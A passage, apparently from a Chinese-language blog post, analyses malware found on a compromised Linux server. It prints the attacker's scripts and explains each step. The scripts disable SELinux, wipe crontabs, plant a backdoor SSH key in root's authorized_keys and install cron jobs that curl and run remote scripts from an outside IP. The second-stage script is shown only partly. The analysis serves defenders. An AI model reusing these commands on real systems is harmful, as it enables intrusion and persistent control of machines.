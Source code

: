 **脚本内容如下：**

> uname -a
> 
> id
> 
> hostname
> 
> setenforce 0 2>/dev/null
> 
> ulimit -n 50000
> 
> ulimit -u 50000
> 
> crontab -r 2>/dev/null
> 
> rm -rf /var/spool/cron/\* 2>/dev/null
> 
> mkdir -p /var/spool/cron/crontabs 2>/dev/null
> 
> mkdir -p /root/.ssh 2>/dev/null
> 
> echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfB19N9slQ6uMNY8dVZmTQAQhrdhlMsXVJeUD4AIH2tbg6Xk5PmwOpTeO5FhWRO11dh3inlvxxX5RRa/oKCWk0NNKmMza8YGLBiJsq/zsZYv6H6Haf51FCbTXf6lKt9g4LGoZkpNdhLIwPwDpB/B7nZqQYdTmbpEoCn6oHFYeimMEOqtQPo/szA9pX0RlOHgq7Duuu1ZjR68fTHpgc2qBSG37Sg2aTUR4CRzD4Li5fFXauvKplIim02pEY2zKCLtiYteHc0wph/xBj8wGKpHFP0xMbSNdZ/cmLMZ5S14XFSVSjCzIa0+xigBIrdgo2p5nBtrpYZ2/GN3+ThY+PNUqx redisX' > /root/.ssh/authorized\_keys
> 
> echo '\*/15 \* \* \* \* curl -fsSL 159.89.190.243/ash.php|sh' > /var/spool/cron/root
> 
> echo '\*/20 \* \* \* \* curl -fsSL 159.89.190.243/ash.php|sh' > /var/spool/cron/crontabs/root
> 
> yum install -y bash 2>/dev/null
> 
> apt install -y bash 2>/dev/null
> 
> apt-get install -y bash 2>/dev/null
> 
> bash -c 'curl -fsSL 159.89.190.243/bsh.php|bash' 2>/dev/null

**大致分析一下该脚本的主要用途：**

> 首先是关闭 SELinux，解除 shell 资源访问限制，然后在 / root/.ssh/authorized\_keys 文件中生成 ssh 公钥，这样每次黑客登录这台服务器就可以免密码登录了，执行脚本就会方便很多，关于 ssh keys 的文章可以参考这一篇文章 SSH 原理与运用。接下来安装 bash，最后是继续下载第二个脚本 bsh.php，并且执行。

**继续下载并分析 bsh.pbp，内容如下：**

> sleep $(seq 3 7 | sort -R | head -n1)
> 
> cd /tmp || cd /var/tmp
> 
> sleep 1
> 
> mkdir -p .ICE-unix/... && chmod -R 777 .ICE-unix && cd .ICE-unix/...
> 
> sleep 1
> 
> if \[-f .watch\]; then
> 
> rm -rf .watch
> 
> exit 0
> 
> fi
> 
> sleep 1